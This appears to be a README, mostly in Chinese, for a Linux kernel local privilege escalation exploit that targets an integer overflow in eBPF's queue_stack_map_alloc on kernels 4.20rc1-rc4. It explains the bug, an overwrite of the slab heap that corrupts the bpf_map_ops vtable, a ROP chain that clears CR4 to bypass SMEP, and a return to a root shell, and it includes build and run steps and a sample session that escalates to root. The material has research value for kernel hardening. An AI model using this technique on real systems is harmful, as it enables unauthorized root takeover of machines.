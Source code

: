 # Linux_LPE_eBPF_4.20rc1-4
LPE exploit for 4.20rc1-rc4.
For educational/research purposes only. Use at your own risk.
## Analysis
syscall: int bpf(int cmd, union bpf_attr *attr, unsigned int size);
### 编译参数
	开启下列参数：
		1. CONFIG_BPF
		2. CONFIG_BPF_SYSCALL
		3. CONFIG_DEBUG_INFO
### exploit
#### 漏洞触发路径
a. 漏洞触发路径：bpf -> map_create -> find_and_alloc_map -> queue_stack_map_alloc。
#### 触发漏洞的条件
b. 达到漏洞函数的条件。
```
	1. 设置 attr->map_type 为 22。
	2. 通过 map_alloc_check 的检查。
	3. attr->map_ifindex 为空。
```
#### 漏洞位置
c. 漏洞函数 queue_stack_map_alloc 的漏洞：整数溢出 -> 分配堆空间。
size变量存在整数溢出。这个size在正常情况下应该是：struct bpf_queue_stac 的大小加上 value_size * size 相当于是map中每一项的大小（value_size）乘项数+1（attr->max_entries + 1）。另外，elements后面是数据区域。
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

/* map is generic key/value storage optionally accessible by eBPF programs */
struct bpf_map_ops {
	/* funcs callable from userspace (via syscall) */
	int (*map_alloc_check)(union bpf_attr *attr);
	struct bpf_map *(*map_alloc)(union bpf_attr *attr);
	void (*map_release)(struct bpf_map *map, struct file *map_file);
	...
}；
struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
    struct bpf_map *inner_map_meta;
#ifdef CONFIG_SECURITY
    void *security;
#endif
    enum bpf_map_type map_type;
    u32 key_size;
    u32 value_size;
    u32 max_entries;
    u32 map_flags;
    u32 pages;
    u32 id;
    int numa_node;
    u32 btf_key_type_id;
    u32 btf_value_type_id;
    struct btf *btf;
    bool unpriv_array;
    /* 55 bytes hole */
 
    /* The 3rd and 4th cacheline with misc members to avoid false sharing
     * particularly with refcounting.
     */
    struct user_struct *user ____cacheline_aligned;
    atomic_t refcnt;
    atomic_t usercnt;
    struct work_struct work;
    char name[BPF_OBJ_NAME_LEN];
};

void *bpf_map_area_alloc(size_t size, int numa_node)
{
    ......
  area = kmalloc_node(size, GFP_USER | flags, numa_node);
        if (area != NULL)
            return area;
    ......
}

bpf_map* queue_stack_map_alloc{
......
  struct bpf_queue_stack *qs;   
  u32 size, value_size;
  u64 queue_size, cost;
 
  // bugs-> integer overflow. -> 0
  size = attr->max_entries + 1;
  value_size = attr->value_size;
 
  queue_size = sizeof(*qs) + (u64) value_size * size;
  ......
  qs = bpf_map_area_alloc(queue_size, numa_node); // numa_node存储着attr
  ......
  // 用 bpf_attr 初始化 bpf_map。
  bpf_map_init_from_attr(&qs->map, attr);
  ......
  qs->size = size;
  return &qs->map;
}
```
最后从 find_and_alloc_map(attr) 中返回我们的map（struct bpf_map *）。
---->
由于整数溢出，导致只分配了struct bpf_queue_stack 的空间，而没有分配map对应的空间。（个人理解这个bpf_queue_stack类似报文头部（负责管理的），而map对应的空间类似payload（elements数据）），但是map->max_entries = attr->max_entries。
#### 堆溢出
e. 接下来，我们需要找到一块可以造成堆溢出的位置。我们将视角移出 map_create 函数。然而在BPF_MAP_UPDATE_ELEM 分支中我们对此对象进行更新等操作。	
触发路径：bpf -> map_update_elem -> queue_stack_map_push_elem.
```
queue_stack_map_push_elem(struct bpf_map *map, void *value,
                     u64 flags){
......
 dst = &qs->elements[qs->head * qs->map.value_size]; //qs->head代表当前是第几个entry
 memcpy(dst, value, qs->map.value_size); //堆溢出位置     
......
}
```
所以，对于0x100大小的map header+map payload, 即struct bpf_queue_stack，如果我们要拷贝的大小（value_size）大于（0x100- sizeof(bpf_map) - 0x10）的大小，就会造成堆溢出，而value_size由输入参数 attr 控制，从而能覆盖到下一个created map的bpf_map_ops虚表。
#### 漏洞利用
f. 漏洞利用
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
  ......
}
```
1. 看到其第一个成员就是虚表指针 ops ，换句话说，在我们kamlloc出的slab中的第一个位置就是指向当前map虚表的指针。
2. 如果我们能通过上方的slab堆溢出，劫持下方slab的虚表指针，再fake相应的vtable，就可以实现一套内核的执行流劫持。
3. 最终的攻击点我们选择在在fake vtable上伪造fake map_release函数指针，通过close对应的map id触发fake bpf_map_release完成执行流劫持。

##### bypass smep
1. 使用了这样一条在内核中常用的栈迁移gadgets：xchg eax esp; ret;。将该gadget直接放到用户态mmap出来的fake ops table上。
2. rop劫持cr4绕过smep，然后ret2usr 提升权限。
3. 最后 swapgs; iretq 着陆用户态起shell。

但是这样是没法bypass smap的，因为ret指令涉及到向用户态取数据。

## Todo
### bypass smap
### bypass kaslr
### bypass kpti

## Usage
Build for 4.20rc1-rc4.
```
$ make
```
To run:
由于当前版本没绕过kaslr，需要手动修改exp的gadget地址以匹配你的内核。
```
# id
uid=1000(tmp) gid=1000(tmp) groups=1000(tmp)
$ /exp                                                                                          
[+] sizeof(union bpf_attr): 0x48
[+] sizeof(struct bpf_map): 0xc0          
[+] sizeof(struct bpf_queue_stack): 0x100
[+] bpf targetFd: 3
[+] map fd: 4
[+] set fake bpf_map_ops table.
[+] set kernel rop.
[+] fake_rsp: 8100e7f8
[+] start closing map fd
[*] welcome to root :-)
$ id
uid=0(root) gid=0(root)
```
Note: Just a toy. Improve the mitigation please. 